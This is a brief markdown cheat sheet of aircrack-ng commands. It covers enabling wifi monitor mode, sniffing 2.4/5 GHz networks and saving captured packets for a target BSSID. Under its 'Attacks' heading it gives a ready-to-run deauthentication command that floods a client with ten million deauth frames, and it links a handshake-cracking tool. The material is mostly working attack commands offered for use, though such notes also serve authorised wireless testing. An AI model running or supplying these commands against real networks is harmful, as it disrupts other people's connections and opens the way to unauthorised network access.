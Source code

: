 # WI-FI, wifi

## Enable monitor wifi mode

- `sudo ip link set wlp0s20f0u3 down`

- `sudo airmon-ng check kill`

- `sudo iw dev wlp0s20f0u3 set type monitor`
- `sudo ip link set wlp0s20f0u3 up`

### switch channel

- `sudo airmon-ng start wlp0s20f0u3 3`

## Packet sniffing

- `sudo airodump-ng wlp0s20f0u3` - sniff 2.4Ghz networks
- `sudo airodump-ng --band a wlp0s20f0u3` - sniff 5Ghz networks
- `sudo airodump-ng --band abg wlp0s20f0u3` - sniff both 2.4Ghz and 5Ghz networks

- `sudo airodump-ng --bssid EE:EE:EE:BB:BB:BB --channel 2 --write sniffed-packets wlanmon0` - save packets to a file

## Attacks

Disconnect a device from the network:

- `sudo aireplay-ng --deauth 10000000 -a EE:EE:EE:BB:BB:BB -c CC:CC:CC:AA:AA:AA wlanmon0`

- [handshake cracker](https://github.com/semeion/handshake-cracker)
